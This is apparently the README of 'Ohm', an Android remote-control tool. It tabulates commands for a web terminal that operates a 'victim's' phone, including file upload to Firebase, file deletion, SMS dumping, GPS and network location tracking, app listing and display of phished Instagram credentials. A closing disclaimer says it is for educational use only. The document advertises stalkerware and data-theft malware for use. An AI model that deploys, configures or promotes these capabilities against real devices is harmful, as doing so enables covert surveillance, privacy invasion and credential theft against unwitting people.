  Credits: Linuxndroid 

---

## List of Commands

Command | Definition | Example and Usage
--------|------------|---------
openfolder * <FOLDER_DIR> | This will Show the contents of Folder | ```openfolder * /sdcard/DCIM ```
uploadfile * <FILE_DIR> | This will Upload File To Firebase Storage From Device | ``` uploadfile * /sdcard/DCIM/Camera/image.png```
deletefile * <FILE_DIR> | This Will delete the specific file or folder | ```deletefile * /sdcard/DCIM/Camera/image.png```
makefolder * <FILE_DIR> | This will create a Folder | ```makefolder * /sdcard/My Folder/```
shownotify * <YOUR_MSG> | This will show notification | ```shownotify * Your Message```
openweburi * <YOUR_URI> | This will open external URL | ```openweburi * https://github.com/Th30neAnd0nly/Ohm```
playsmusic * <EXACT_MUSIC_URL> | This will play the music in Victims Device from the given music URL | ```playsmusic * https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3```
vibratedevice * <TIME_IN_MS> | Vibrates the victims Device for 'x' milliseconds | ``` vibratedevice * 500```
speachtext * <YOUR_MSG> | This will Use Text To Speach to output your message | ``` speachtext * How are You```
deviceflashon | Turns on the flash light of device | ```deviceflashon```
deviceflashoff | Turns of the flash light of victims Device | ```deviceflashoff```
changewallpaper | Changes the device wallpaper to [this](https://github.com) | ``` changewallpaper```
internaldir | Shows the Internal Storage files and Folders | ```internaldir```
installedapps | Shows the package name of all the installed apps | ```installedapps```
sysinfo | Shows The System Information | ```sysinfo```
dumpsms | Dumps all the SMS and uploads file to Firebase Storage | ```dumpsms```
showphishdata | Shows the Phished Credentials of  [Instagram](https://github.com/Th30neAnd0nly/PI) |  ```showphishdata```
getgpslocation | Shows the GPS location | ```getgpslocation```
getnetworklocation | Shows the Network Location | ```getnetworklocation```
help | Shows all the commands | ``` help```
clear | Clears the Web Terminal | ```clear```


---

# Made with :heart: in Sketchware

---

### ❤️Supporters❤️
[![Stargazers repo roster for @th30neand0nly/Ohm](https://reporoster.com/stars/dark/Th30neAnd0nly/Ohm)](https://github.com/Th30neAnd0nly/Ohm/stargazers)

[![Forkers repo roster for @th30neand0nly/Ohm](https://reporoster.com/forks/dark/Th30neAnd0nly/Ohm)](https://github.com/Th30neAnd0nly/Ohm/network/members)

## DISCLAIMER
<p align="center">
 TO BE USED FOR EDUCATIONAL PURPOSES ONLY
</p>


The use of the OHM is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program. Please read [LICENSE](LICENSE).


